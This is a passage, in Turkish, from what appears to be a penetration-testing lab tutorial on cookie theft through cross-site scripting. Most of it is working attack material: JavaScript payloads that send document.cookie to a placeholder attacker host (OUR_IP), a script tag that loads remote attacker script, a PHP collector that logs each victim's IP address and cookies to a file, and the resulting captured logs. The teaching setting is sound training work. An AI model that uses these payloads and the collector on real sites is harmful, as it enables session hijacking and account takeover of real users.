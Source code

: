 ```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

İki payload'tan herhangi birini kullanmak bize bir cookie göndermede işe yarayacaktır, ancak ikincisini kullanacağız, çünkü sayfaya sadece bir resim ekler, bu da çok kötü niyetli görünmeyebilir, ilki ise şüpheli görünebilecek cookie grabber PHP sayfamıza gider.

Bu JavaScript yüklerinden herhangi birini sanal makinemizde de barındırılacak olan script.js dosyasına yazabiliriz:

```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie
```

```html
<script src=http://OUR_IP/script.js></script>
```

PHP sunucumuz çalışırken, artık kodu XSS payload'umuzun bir parçası olarak kullanabilir, savunmasız girdi alanına gönderebilir ve cookie değeri ile sunucumuza bir çağrı alabiliriz. Ancak, çok sayıda cookie varsa, hangi cookie değerinin hangi cookie başlığına ait olduğunu bilemeyebiliriz. Bu nedenle, bunları yeni bir satırla bölmek ve bir dosyaya yazmak için bir PHP scripti yazabiliriz. Bu durumda, birden fazla kurban XSS istismarını tetiklese bile, tüm cookie'lerini bir dosyada sıralı olarak alacağız.

Aşağıdaki PHP betiğini index.php olarak kaydedebilir ve PHP sunucusunu tekrar çalıştırabiliriz:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Şimdi, kurbanın savunmasız sayfayı ziyaret etmesini ve XSS payload'umuzu görüntülemesini bekliyoruz. Bunu yaptıklarında, sunucumuzda biri script.js için olmak üzere iki istek alacağız ve bu da cookie değeri ile başka bir istekte bulunacak:

```shell-session
10.10.10.10:52798 [200]: /script.js
10.10.10.10:52799 [200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
```

Daha önce de belirtildiği gibi, gördüğümüz gibi cookie değerini doğrudan terminalde alıyoruz. Bununla birlikte, bir PHP scripti hazırladığımız için, cookies.txt dosyasını da temiz bir cookie günlüğü ile alıyoruz:

```shell-session
M1R4CKCK@htb[/htb]$ cat cookies.txt 
Victim IP: 10.10.10.1 | Cookie: cookie=f904f93c949d19d870911bf8b05fe7b2
```
